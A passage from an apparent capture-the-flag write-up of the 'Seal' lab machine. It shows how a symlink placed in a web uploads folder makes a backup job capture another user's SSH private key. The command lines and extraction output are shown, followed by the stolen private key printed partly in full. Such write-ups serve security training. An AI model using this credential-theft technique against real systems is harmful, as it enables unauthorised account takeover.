 ```php
-r-------- 1 luis luis       33 Jul 10 20:24 user.txt
-rw------- 1 luis luis     2241 Jul 10 20:52 .viminfo
```

To exploit it we create symbolic link to the key in the `uploads` directory and wait about one minute.

```php
tomcat@seal:/var/lib/tomcat9$ ln -s /home/luis/.ssh/id_rsa /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/key
```

As soon as a new backup has been created we move it to a new directory under `/tmp` since the `archives` directory seems to be cleaned up every 5 minutes.

```php
tomcat@seal:/var/lib/tomcat9$ ls -la /opt/backups/archives/*
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:45 /opt/backups/archives/backup-2021-07-10-22:45:33.gz
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:46 /opt/backups/archives/backup-2021-07-10-22:46:33.gz
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:47 /opt/backups/archives/backup-2021-07-10-22:47:33.gz
-rw-rw-r-- 1 luis luis 608910 Jul 10 22:48 /opt/backups/archives/backup-2021-07-10-22:48:33.gz
```

```php
tomcat@seal:/var/lib/tomcat9$ mkdir /tmp/exfil
tomcat@seal:/var/lib/tomcat9$ cp /opt/backups/archives/backup-2021-07-10-22:48:33.gz /tmp/exfil/
```

Once copied we can extract the file and see that the id_rsa file was indeed present in Luis's home directory.

```php
tomcat@seal:/var/lib/tomcat9$ cd /tmp/exfil/
tomcat@seal:/tmp/exfil$ mv backup-2021-07-10-22\:48\:33.gz archive.tar.gz
tomcat@seal:/tmp/exfil$ tar -xzvf archive.tar.gz
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
dashboard/index.html
...[snip]...
dashboard/uploads/key
...[snip]...
```

`/tmp/exfil/dashboard/uploads/key`
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
7Ag2WQOrF+PDhbbhes7lIBasx63R60ePmBWsID/DoCfTVpGqZprZJMXBGxeJ9fr/5fu+JB
JrYu404k0kID6/06E3b0LcNdvmGn1bRJAf/IqRJwCKA/weiTjneKT0zYF/ETD1h/d5kra6
m5ZzDlibaPWKS8YTON7/SOhFI3vIKfxHEq7xwwXsxBDM2UviG3D/oZ8OXpWnbi5rXU0jD0
wlpKSPYVxzVPZ43A/k0UfwPdFR6nai5WiZIAvc6UVwdtPeg1cRWHTi3I4Hjd63JwgBIUO+
VbBB1xPzR4DvM4w9qN3JwDs7DMkK6jV7T2vqh41Q3If09U40pQlsQBR8vziD8QbqRP5GxK
MtfnSR7kfoBKesjJX6hchFYVGw6soQAAAAMBAAEAAAGAJuAsvxR1svL0EbDQcYVzUbxsaw
MRTxRauAwlWxXSivmUGnJowwTlhukd2TJKhBkPW2kUXI6OWkC+it9Oevv/cgiTY0xwbmOX
```